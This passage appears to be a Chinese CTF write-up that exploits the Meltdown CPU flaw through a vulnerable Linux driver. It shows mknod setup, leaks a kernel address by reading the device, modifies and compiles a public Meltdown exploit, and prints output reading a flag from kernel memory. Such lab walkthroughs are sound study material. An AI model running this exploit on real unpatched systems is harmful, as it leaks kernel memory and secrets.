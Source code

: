 首先通过/proc/devices找到设备的设备号：

```bash
$ cat /proc/devices | grep memdev
250 memdev
```

然后使用mknod命令创建设备节点：

```bash
# mknod 设备节点 c（代表字符设备）主设备号 次设备号
$ sudo mknod /dev/memdev0 c 250 0
```

然后在`/dev`目录下就有设备文件了：

```
$ ls /dev/memdev0 
/dev/memdev0
```

## 进行攻击

虽然你可能不懂Linux驱动编译，但是目标驱动的代码应该是足够简单可以读懂的。当我们去读取这个驱动对应的设备文件时，就能读取到flag的内存地址。我们只需要通过meltdown漏洞，把这个位于内核内存地址的flag读出来即可，并且地址已知。那我们首先来尝试一下获得这个地址吧，首先我们尝试一下直接cat：

```bash
$cat /dev/memdev0 
��6�����
```

果然是能读出一些东西，我们将其base64编码：

```bash
$ cat /dev/memdev0 | base64
yOI2oP////8AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

然后在工具中解码：

```bash
➜  ~ echo "yOI2oP////8AA" | base64 -d | hexyl
┌────────┬─────────────────────────┬─────────────────────────┬────────┬────────┐
│00000000│ c8 e2 36 a0 ff ff ff ff ┊ 00                      │××6×××××┊0       │
└────────┴─────────────────────────┴─────────────────────────┴────────┴────────┘
```

得到目标内存地址：0xffffffffa036e2c8，然后我们使用[https://github.com/paboldin/meltdown-exploit](https://github.com/paboldin/meltdown-exploit)，这个exp进行攻击。把其中meltdown.c的`/proc/version`，换成`/dev/memdev0 `。目的要使目标内存数据存放到cache上。漏洞驱动每一次read都会把flag读一遍，也就是会把flag到cache上。所以触发该漏洞的前提条件是先让内核去使用一下目标的内存地址，使用的结果给不给用户看无所谓，但是要使用。这个exp本身也是基于通过读文件触发方式，将内核的目标数据代入到cache中。最后在linux中make即可编译出可用的exp二进制，即可完成攻击：

```bash
$ git remote -v
origin	https://github.com/paboldin/meltdown-exploit.git (fetch)
origin	https://github.com/paboldin/meltdown-exploit.git (push)
$ make
./detect_rdtscp.sh >rdtscp.h
cc -O2 -msse2   -c -o meltdown.o meltdown.c
cc   meltdown.o   -o meltdown
$ strings meltdown | grep memdev
/dev/memdev0
$ ./meltdown 0xffffffffa036e2c8 20
cached = 35, uncached = 309, threshold 104
read ffffffffa036e2c8 = 66 f (score=979/1000)
read ffffffffa036e2c9 = 6c l (score=922/1000)
read ffffffffa036e2ca = 61 a (score=985/1000)
read ffffffffa036e2cb = 67 g (score=986/1000)
read ffffffffa036e2cc = 7b { (score=498/1000)
read ffffffffa036e2cd = 74 t (score=974/1000)
read ffffffffa036e2ce = 68 h (score=970/1000)
```